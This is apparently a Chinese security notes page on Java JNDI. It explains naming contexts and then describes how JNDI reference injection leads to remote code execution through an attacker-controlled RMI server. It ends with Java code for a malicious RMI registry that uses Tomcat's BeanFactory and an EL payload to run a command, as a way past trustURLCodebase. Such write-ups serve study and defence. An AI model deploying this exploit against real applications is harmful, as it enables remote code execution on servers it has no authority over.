 ```yaml
---
title: "JNDI"
author: ["4shen0ne"]
lastmod: 2024-12-14T01:38:25+08:00
tags: ["java"]
draft: false
---
```


> Java 命名和目录接口（Java Naming and Directory Interface，缩写 JNDI），是 Java 的一
> 个目录服务应用程序接口（API），它提供一个目录系统，并将服务名称与对象关联起来，
> 从而使得开发人员在开发过程中可以使用名称来访问对象。

根据 wiki 的描述，JNDI 全称为 Java Naming and Directory Interface，也就是 Java 命名和
目录接口。既然是接口，那么就必定有其实现，而目前我们 Java 中使用最多的基本就是 rmi
和 [ldap]({{< relref "ldap.md" >}}) 的目录服务系统。而命名的意思就是，在一个目录系统，它实现了把一个服务名称和
对象或命名引用相关联，在客户端，我们可以调用目录系统服务，并根据服务名称查询到相
关联的对象或命名引用，然后返回给客户端。而目录的意思就是在命名的基础上，增加了属
性的概念，我们可以想象一个文件目录中，每个文件和目录都会存在着一些属性，比如创建
时间、读写执行权限等等，并且我们可以通过这些相关属性筛选出相应的文件和目录。而
JNDI 中的目录服务中的属性大概也与之相似，因此，我们就能在使用服务名称以外，通过一
些关联属性查找到对应的对象。

总结的来说：JNDI 是一个接口，在这个接口下会有多种目录系统服务的实现，我们能通过名
称等去找到相关的对象，并把它下载到客户端中来。


## Context 上下文 {#context-上下文}

Context 是一组“名称－对象”映射的集合，不同的 context 有自己的命名约定，通常一个
context 对象都会提供 lookup、bind、unbind 和 list 操作用来管理命名列表，并且一个
context 的名称可以映射到另一个具有相同命名约定的 context 对象中（子上下文）

{{< figure src="../.images/Context_上下文/2021-12-06_10-41-49_screenshot.png" >}}


## JNDI 架构 {#jndi-架构}

{{< figure src="../.images/JNDI_架构/2021-12-06_10-44-25_screenshot.png" >}}

JNDI 通过以下 5 个包组成：

1.  javax.naming
2.  javax.naming.directory
3.  javax.naming.ldap
4.  javax.naming.event
5.  javax.naming.spi


## JNDI References {#jndi-references}

在 JNDI 服务中，RMI 服务端除了直接绑定远程对象之外，还可以通过 References 类来绑定一
个外部的远程对象（当前名称目录系统之外的对象）。绑定了 Reference 之后，服务端会先
通过 Referenceable.getReference()获取绑定对象的引用，并且在目录中保存。当客户端在
lookup()查找这个远程对象时，客户端会获取相应的 object factory，最终通过 factory 类
将 reference 转换为具体的对象实例。

整个利用流程如下：

1.  目标代码中调用了 InitialContext.lookup(URI)，且 URI 为用户可控；
2.  攻击者控制 URI 参数为恶意的 RMI 服务地址，如：rmi://hacker_rmi_server//name；
3.  攻击者 RMI 服务器向目标返回一个 Reference 对象，Reference 对象中指定某个精心构造的 Factory 类；
4.  目标在进行 lookup()操作时，会动态加载并实例化 Factory 类，接着调用 factory.getObjectInstance()获取外部远程对象实例；
5.  攻击者可以在 Factory 类文件的构造方法、静态代码块、getObjectInstance()方法等处写入恶意代码，达到 RCE 的效果；

Tips：JNDI 查找远程对象时 InitialContext.lookup(URL)的参数 URL 可以覆盖一些上下文中
的属性，比如：Context.PROVIDER_URL


### 绕过高版本 jndi 限制 {#绕过高版本-jndi-限制}

trustURLCodebase 限制了应用加载远程 codebase 中的代码，在目标本地使用了 tomcat8+
或者 SpringBoot 1.2.x+ 的前提下可以利用 `org.apache.naming.factory.BeanFactory`

因为是本地 Factory, 不会被 trustURLCodebase 限制。在执行其 getObjectInstance 方
法时让它加载 ELProcessor 类并反射调用其 eval 方法执行命令

```java
System.out.println("Creating evil RMI registry on port 1097");
Registry registry = LocateRegistry.createRegistry(1097);

//prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
//redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
ref.add(new StringRefAddr("forceString", "x=eval"));
//expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd','/c','calc']).start()\")"));

ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
registry.bind("evilEL", referenceWrapper);
```
